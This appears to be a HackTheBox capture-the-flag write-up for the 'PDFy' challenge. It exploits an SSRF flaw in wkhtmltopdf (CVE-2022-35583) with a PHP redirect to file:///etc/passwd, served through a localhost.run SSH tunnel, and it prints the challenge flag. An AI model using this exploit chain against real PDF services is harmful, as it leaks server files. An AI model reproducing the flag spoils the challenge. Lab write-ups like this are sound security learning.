

# HackTheBox - PDFy

---

Tags: `SSRF`, **`CVE-2022-35583`, `localhost.run`**

---

> Welcome to PDFy, the exciting challenge where you turn your favorite web pages into portable PDF documents! It's your chance to capture, share, and preserve the best of the internet with precision and creativity. Join us and transform the way we save and cherish web content! NOTE: Leak /etc/passwd to get the flag!
> 

In this HackTheBox challenge, We have a website used to dump a PDF based on an existing website:



We know that the flag is in the `/etc/passwd` file and when trying to generate a PDF for Google it works correctly.

Let’s see how the PDF request works:


The request gets a JSON with `url` as a single field and, if the conversion goes as expected a PDF name is returned. Then the PDF is stored in `/static/pdfs/[file name].pdf`.

After some tests, and get some errors as the following one:


I was sure about one thing: the PDF is made up using the wkhtmltopdf library.

Searching on Google I noticed that there is a CVE over this library: **[CVE-2022-35583](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/5249)**

Then, looking for a PoC I found this useful guide: **[wkhtmltopdf SSRF](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/).**

```php
<?php
  header("Location: file:///etc/passwd");
?>
```

```php
php -S 0.0.0.0:8081
```

```php
ssh -R 80:localhost:8081 nokey@localhost.run
```


---

## Flag: HTB{pdF_g3n3r4t1on_g03s_brrr!}